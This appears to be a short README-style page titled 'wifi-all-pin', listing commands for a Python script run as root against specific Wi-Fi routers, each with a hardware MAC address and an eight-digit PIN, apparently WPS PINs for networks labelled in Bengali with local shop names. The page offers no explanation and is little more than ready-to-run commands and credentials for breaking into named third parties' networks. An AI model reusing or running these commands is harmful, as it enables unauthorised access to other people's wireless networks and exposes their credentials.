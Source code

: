 # wifi-all-pin
একটু স্লো দোকানের  sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385


 saim slow-BD, বাগিনা sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698
